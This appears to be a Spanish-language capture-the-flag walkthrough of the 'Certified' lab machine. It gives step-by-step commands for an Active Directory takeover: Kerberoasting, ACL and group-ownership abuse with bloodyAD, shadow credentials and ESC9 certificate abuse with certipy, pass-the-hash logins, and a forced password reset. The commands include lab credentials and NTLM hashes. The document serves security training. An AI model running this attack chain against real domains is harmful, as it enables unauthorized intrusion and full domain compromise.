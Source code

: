 ```yaml
---
title: Certified
layout: default
---
```

```
judith.mader \ judith09
```

```bash
impacket-GetUserSPNs certified.htb/judith.mader:judith09 -request
```

**TIENE WRITE OWNER SOBRE GRUPO MANAGEMENT**

```bash
bloodyAD --host DC01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' set owner management judith.mader
```

```bash
bloodyAD --host DC01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' add genericAll 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' judith.mader
```

**MANAGEMENT TIENE GenericWrite sobre  MANAGEMENT_SVC**

Nos añadimos al grupo MANAGEMENT

```PYTHON
bloodyAD --host 10.10.11.41 -d DC01.certified.htb -u judith.mader   -p judith09   add groupMember 'MANAGEMENT' judith.mader
```

No podemos crackear el hash al parecer
```python
sudo python3 targetedKerberoast.py -v -d certified.htb -u 'judith.mader' -p 'judith09' --request-user MANAGEMENT_SVC -o management_svc.kerb
```

Por tener GenericAll sobre un grupo no tenemos GenericAll sobre los integrantes

Pero al ser miembro de MANAGEMENT tenemos GenericWrite sobre MANAGEMENT_SVC

```bash
certipy shadow auto -u 'judith.mader@certified.htb' -p 'judith09' -account 'MANAGEMENT_SVC' -dc-ip 10.10.11.41
```

```bash
netexec smb 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584' -d certified.htb
```

```bash
evil-winrm -i 10.10.11.41 -u MANAGEMENT_SVC -H 'a091c1832bcdd4677c28b5a6a1295584'
```

Tenemos GenericAll sobre ca_operator

```bash
rpcclient -U 'MANAGEMENT_SVC%a091c1832bcdd4677c28b5a6a1295584' 10.10.11.41 --pw-nt-hash
```

```bash
setuserinfo2 CA_OPERATOR 23 'TYx4huMwMr$zbzabeGJS'
```

```
CA_OPERATOR \ TYx4huMwMr$zbzabeGJS
```

Tengo control sobre el usuario que lleva la autoridad certificadora

Para saber el nombre de la CA
```bash
certipy find -u CA_OPERATOR -p 'TYx4huMwMr$zbzabeGJS' -dc-ip 10.10.11.41
```

Se llama `certified-DC01-CA`

Buscamos vulns
```bash
certipy find -vulnerable -u 'CA_OPERATOR' -p 'TYx4huMwMr$zbzabeGJS' -dc-ip 10.10.11.41
```

# Vulnerable a ESC9

Buscamos plantillas vulnerables
```bash
certipy-ad find -vulnerable -u 'CA_OPERATOR' -p 'TYx4huMwMr$zbzabeGJS' -dc-ip 10.10.11.41
```

- La plantilla `CertifiedAuthentication` tiene no security extension.
- Como usuario MANAGEMENT_SVC tenemos genericwrite sobre CA_OPERATOR

Cambiamos el UPN del usuario sobre el que tenemos GenericWrite/All

```bash
certipy account update -u 'MANAGEMENT_SVC' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn administrator@certified.htb -dc-ip 10.10.11.41
```

Solicitamos un certificado como el usuario
```bash
certipy req -u 'ca_operator@certified.htb' -p 'TYx4huMwMr$zbzabeGJS' -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```

Lo dejamos como estaba
```bash
certipy account update -u 'MANAGEMENT_SVC' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn ca_operator@certified.htb -dc-ip 10.10.11.41
```

No autenticamos con ese certificado
```bash
certipy auth -dc-ip '10.10.11.41' -pfx 'administrator.pfx' -username 'administrator' -domain 'certified.htb'
```

```bash
evil-winrm -i 10.10.11.41 -u Administrator -H '0d5b49608bbce1751f708748f67e2d34'
```